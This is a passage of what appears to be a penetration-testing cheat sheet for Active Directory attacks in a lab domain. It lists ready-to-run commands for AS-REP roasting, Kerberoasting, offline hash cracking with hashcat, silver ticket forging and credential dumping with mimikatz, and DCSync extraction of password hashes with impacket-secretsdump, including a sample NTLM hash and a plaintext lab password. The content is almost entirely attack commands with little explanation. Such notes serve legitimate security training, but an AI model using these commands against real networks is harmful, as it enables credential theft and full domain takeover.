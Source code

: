 `kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

`PS C:\Tools> .\Rubeus.exe asreproast /nowrap`

<a name="kerberoasting"></a>
## Kerberoasting

`PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
`kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
`kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete`

<a name="silver-tickets"></a>
## Silver Tickets
`PS C:\Users\jeff> iwr -UseDefaultCredentials http://web04`

	mimikatz # privilege::debug
	mimikatz # sekurlsa::logonpasswords
	* NTLM     : 4d28cf5252d39971419580a51484ca09

`PS C:\Users\jeff> whoami /user`

 	User Name SID
 	========= =============================================
 	corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105

 .

	mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
	mimikatz # exit

`PS C:\Tools> klist`
`PS C:\Tools> iwr -UseDefaultCredentials http://web04`

<a name="domain-controller-synchronization"></a>
## Domain Controller Synchronization
> a user needs to have the Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set rights. By 
> default, members of the Domain Admins, Enterprise Admins, and Administrators groups have these rights assigned.

`PS C:\Tools> .\mimikatz.exe`
...

`mimikatz # lsadump::dcsync /user:corp\dave`

`kali@kali:~$ impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70`

<a name="lateral-movement-in-active-directory"></a>
# Lateral Movement in Active Directory
